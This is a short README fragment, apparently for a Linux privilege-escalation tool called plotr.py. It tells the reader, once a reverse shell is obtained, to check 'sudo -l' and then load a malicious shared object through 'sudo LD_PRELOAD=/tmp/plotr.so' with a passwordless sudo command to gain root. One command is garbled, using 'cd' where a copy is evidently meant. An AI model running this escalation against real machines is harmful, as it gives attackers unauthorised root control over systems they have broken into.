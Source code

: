 # Usage
  ```
  chmod +x plotr.py
  ./plotr.py
  ```


if you show like a below then "sudo -l" after the shell via reverse shell

![image](https://user-images.githubusercontent.com/75846902/194975658-7b816e78-1c20-4ce1-ab4e-98e258ccca44.png)

```
cd plotr.so /tmp/plotr.so
sudo LD_PRELOAD=/tmp/plotr.so <nopasswd command>
```
